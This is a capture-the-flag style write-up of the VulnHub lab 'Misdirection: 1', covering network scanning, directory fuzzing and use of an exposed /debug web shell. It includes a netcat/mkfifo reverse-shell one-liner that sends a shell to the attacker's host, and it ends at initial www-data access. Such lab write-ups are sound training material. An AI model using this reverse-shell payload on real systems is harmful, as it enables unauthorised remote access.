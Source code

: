 # MISDIRECTION: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:b7:d5:da	VMware, Inc.
192.168.127.254	00:50:56:e7:2f:f3	VMware, Inc.
```

The IP address is `192.168.127.133`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -p22,80,3306,8080 -sV -sC -v -oN nmap.out 192.168.127.133

Nmap scan report for 192.168.127.133
Host is up (0.00032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
|_  256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 00:0C:29:B7:D5:DA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

i started checking port `80` and at this page there was nothing interesting, a login page and sign up whcih did not work for registring a user or

using SQLi :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f5fd7c46-edbf-40a6-a984-a401b26e8f7e)

i did fuzzing and found nothing good to work on.

then i turned my attention on port 8080 and started fuzzing it, i found `/wrodpress` on this port which was another misdirection and had nothing

no user, no vulnerable plugin or anything (just a rabbit hole)

```bash
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.133:8080/FUZZ

images                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 6ms]
help                    [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 9ms]
scripts                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 2ms]
css                     [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 3ms]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 2ms]
development             [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 5ms]
manual                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 2ms]
js                      [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 3ms]
shell                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 7ms]
debug                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 4ms]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 4ms]
server-status           [Status: 403, Size: 305, Words: 22, Lines: 12, Duration: 2ms]
```

i checked all the directories found by fuzzing untill i reached `/debug` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/63020c17-85d5-4451-a790-1ed081891850)

this is a virtual shell on web, which we can insert any command on it, why not  a reverse shell ?

so just use this payload and start a listener on your machine :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.127.128 4444 >/tmp/f
```

```bash
root@kali: nc -nvlp 4444

nc -nvlp 5555 
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.133] 58766
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```




